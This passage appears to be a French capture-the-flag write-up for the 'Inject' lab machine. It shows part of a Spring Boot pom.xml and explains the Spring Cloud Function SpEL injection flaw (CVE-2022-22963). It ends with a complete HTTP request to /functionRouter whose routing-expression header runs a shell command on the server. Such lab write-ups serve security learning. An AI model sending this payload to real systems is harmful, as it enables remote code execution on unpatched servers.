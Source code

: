 ```xml
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```

En cherchant sur internet, on remarque rapidement que cette version de spring boot, et notamment la dépendance `spring-cloud-function-web` est vulnérable. Les CVE-2022-22963, [CVE-2022-22965](https://access.redhat.com/security/vulnerabilities/RHSB-2022-003) montre qu'il s'agit d'une RCE, sur le endpoint `/functionRouter`.

### CVE-2022-22963

Lien utile : https://sysdig.com/blog/cve-2022-22963-spring-cloud/

C'est une vulnérabilité qui concerne les Spring Cloud Expression. C'est une fonctionnalité de spring et plus spécifiquement du langage d'expression spEL de spring.

La vulnérabilité concerne la possibilité d'injecter le header `spring.cloud.function.routing-expression` et de pouvoir exécuter des fonctions de Java. Cela peut mener tout simplement à exécuter n'importe quelle commande sur le serveur :

```http
POST /functionRouter HTTP/1.1
Host: inject.htb:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pouet")
Content-Length: 5

totot
```
